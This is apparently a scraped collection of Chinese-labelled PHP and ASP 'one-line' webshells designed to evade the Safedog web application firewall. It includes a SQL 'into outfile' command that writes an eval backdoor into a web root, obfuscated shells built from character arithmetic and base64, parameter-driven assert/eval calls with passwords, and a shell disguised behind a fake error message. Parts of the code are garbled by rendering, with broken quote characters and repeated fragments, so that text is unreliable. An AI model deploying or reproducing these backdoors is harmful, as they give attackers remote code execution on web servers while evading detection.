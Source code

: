 ### 过狗一句话

```
select '<?php @eval($_POST[cmd]);?>' into outfile 'C:/Inetpub/wwwroot/mysql-php/1.php'
```

```php
<?php $_=""; $_[+$_]++; $_=$_.""; $___=$_[+""];//A $____=$___; $____++;//B $_____=$____; $_____++;//C $______=$_____; $______++;//D $_______=$______; $_______++;//E $________=$_______; $________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;//O $_________=$________; $_________++;$_________++;$_________++;$_________++;//S $_=$____.$___.$_________.$_______.'6'.'4'.'_'.$______.$_______.$_____.$________.$______.$_______; $________++;$________++;$________++;//R $_____=$_________; $_____++;//T $__=$___.$_________.$_________.$_______.$________.$_____; $__($_("ZXZhbCgkX1BPU1RbMV0p")); ?> <?php $_REQUEST['a']($_REQUEST['b']); ?> <?php $t=$_GET['t']; $tt=$_GET['tt']; $s=
t;$s($REQUEST[′cc123′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=sert$s=
t;$s($REQUEST[′cc123′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=sert$s=
t.$ttt; $s($_REQUEST['cc']);?> <?php $t=$_GET['t']; //t=tt $tt=$_GET['tt']; //tt=as $ttt=$_GET['ttt']; //ttt=s $tttt=$_GET['tttt']; //ttt=ert $s=
t.$ttt.$tttt;$s($REQUEST[′cc′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=tttt$tttt=$GET[′tttt′];//ttt=sert$s=
t.$ttt.$tttt;$s($REQUEST[′cc′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=tttt$tttt=$GET[′tttt′];//ttt=sert$s=
t.
ttt;$s($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=b;$b=$REQUEST[′b′];//b=as;$c=$REQUEST[′c′];//c=sert;$d=$REQUEST[′d′];//d=c;$e=
ttt;$s($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=b;$b=$REQUEST[′b′];//b=as;$c=$REQUEST[′c′];//c=sert;$d=$REQUEST[′d′];//d=c;$e=
a.
d;$e($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=assert;$b=$REQUEST[′b′];//b=a;$d=
d;$e($REQUEST[′cc′]);?><?php$a=$REQUEST[′a′];//a=assert;$b=$REQUEST[′b′];//b=a;$d=
b; $d($_REQUEST['cc']); ?>
PHP过狗
<?php if($_POST[x]!=''){$a="base64_decode"; eval($a($_POST[z0]));}?> 密码：x
<%a=request(“gold”)%><%eval a%>


fuck<?php
eval
($_POST
[a])
?>


<?php $a=range(1,200);$b=chr($a[96]).chr($a[114]).chr($a[114]).chr($a[100]).chr($a[113]).chr($a[115]); $b(${chr($a[94]).chr($a[79]).chr($a[78]).chr($a[82]).chr($a[83])}[chr($a[51])]); ?> 密码 4
该日志目录不存在或权限不足，请检查设置！<?php
eval
($_POST
[a])
?>
```
